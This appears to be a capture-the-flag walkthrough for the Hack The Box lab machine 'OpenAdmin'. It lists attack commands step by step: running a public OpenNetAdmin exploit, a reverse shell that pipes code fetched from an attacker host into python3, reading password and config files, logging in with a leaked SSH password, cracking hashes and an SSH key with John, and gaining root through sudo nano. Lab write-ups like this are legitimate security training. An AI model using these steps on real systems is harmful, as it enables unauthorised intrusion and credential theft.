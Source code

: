 # OpenAdmin (Linux)
## Includes
* Python3 Reverse Shell
* SSH Port Forwarding
* PTY and TTY Shells
* LinPEAS Privilege Escalation

## For More Info Open OpenAdmin.ctb With CherryTree For More Info
### Open Ports
* **80/TCP: HTTP**
* **22/TCP: SSH**
### Dirbuster On Port 80/TCP
* OpenNetAdmin service running at http://10.10.10.171/ona/

#### Exploit OpenNetAdmin
```searchploit OpenNetAdmin```

```searchploit -m php/webapps/47691.sh```

```dos2unix 47691.sh```

```./47691.sh http://10.10.10.171/ona/```

#### Create A Reverse Python3 Shell
##### Attacker
``` nc -lvp 8080```

At Shell Directory

```sudo python3 -m http.server 80```
##### Target
```curl <tun0 IP> | python3```

##### Attacker
```python3 -c “import pty; pty.spawn('/bin/bash')”```

```echo $TERM```

```stty raw -echo```

```fg```

**Spawn Shell Guide:** [Here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

##### Target
```cat /etc/passwd | grep home```
New Users

* Joanna
* Jimmy

```cat /var/www/ona/local/config```

##### Attacker
```ssh jimmy@10.10.10.171```

With **Password: n1nj4W4rri0R!**

##### Jimmy SSH Session
Hash Found at: ```/var/www/internal/index.php```

Copy the Hash to a File called **HASH** and Decrypt with John: ```john HASH --format=Raw-SHA512 --wordlist=/usr/share/wordlists/rockyou.txt```

After ```cat /etc/apache2/sites-enabled/internal.conf``` We need to SSH Port Forward

##### Attacker - SSH Port Forwarding
```sudo service ssh start```

```ssh -R 9001:127.0.0.1:52846 fsociety@tun0```

At tun0 IP there Is An RSA Private Key

###### RSA to John and John Decryption
```python john2ssh PrivateKey > JohnKey```
```john JohnKey --wordlist=rockyou.txt```

Key Is **bloodninjas** for Joanna
```ssh -i PrivateKey joanna@10.10.10.175```

Now Grep User.txt

#### Privilege Escalation (Using LinPEAS)
```sudo -l```

```sudo -u root /bin/nano /opt/priv```

```ctrl + r``` 

```reset; sh 1>&0 2>&0```

``` ctrl + x```

```id```

Now Grep Root.txt

**Priviledge Escalation Technique:** [Here](https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d)
